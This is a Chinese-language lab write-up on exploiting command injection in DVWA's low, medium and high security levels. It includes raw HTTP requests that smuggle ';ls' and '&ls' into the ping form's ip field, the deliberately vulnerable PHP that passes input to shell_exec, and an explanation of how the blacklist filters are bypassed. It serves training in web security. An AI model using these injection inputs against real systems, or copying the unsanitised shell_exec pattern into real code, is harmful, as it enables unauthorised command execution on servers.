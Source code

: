```yaml
---
description: 命令注入练习
layout:
  width: wide
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 命令注入

### 低等级防护

#### 漏洞利用

{% code title="使用简单的分号添加一条命令" lineNumbers="true" %}
```http
// http

POST /DVWA/vulnerabilities/exec/ HTTP/1.1
Host: 192.168.120.134
Content-Length: 31
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.120.134
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.120.134/DVWA/vulnerabilities/exec/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dij63sh9c8j9inbeqtq2orpatp; security=low
Connection: keep-alive

ip=127.0.0.1%3Bls&Submit=Submit
```
{% endcode %}

#### 漏洞产生原因

对输入没有过滤

{% code title="" lineNumbers="true" %}
```php
// php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix  对用户的输入没有任何防护
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```
{% endcode %}



### 中等防护

初次尝试使用 `;ls` 命令没有效果, 后端可能有过滤,  再次尝试 `\n`  `|`   `&`  命令都可以执行.

{% code lineNumbers="true" %}
```http
//http
POST /DVWA/vulnerabilities/exec/ HTTP/1.1
Host: 192.168.120.134
Content-Length: 33
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.120.134
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.120.134/DVWA/vulnerabilities/exec/
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=dij63sh9c8j9inbeqtq2orpatp; security=medium
Connection: keep-alive

ip=127.0.0.1%26ls&Submit=Submit
```
{% endcode %}

#### 漏洞原因

使用黑名单过滤,忽略了其他字符

{% code lineNumbers="true" %}
```php
//php

  // Set blacklist 只过滤了两种
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
{% endcode %}

### 高防护

测试了 `\n`  `;`  都不能使用,但是 `|` 可以使用,依然还是使用黑名单过滤

#### 漏洞原因

可以看到依然使用的是黑名单过滤,这里另外一个技巧是很多替换函数或者正则表达式缺乏一种迭代的能力,比如 如果输入`||` 他能过滤,但是如果输入 `|||` 他只能过滤掉`||` 因为函数不是迭代过滤的

{% code lineNumbers="true" %}
```php
// php
    // Set blacklist
    $substitutions = array(
        '||' => '',
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
    );

    // Remove any of the characters in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```
{% endcode %}

利用方法

<figure><img src=".gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

#### 不可能的命令注入

这真没办法了






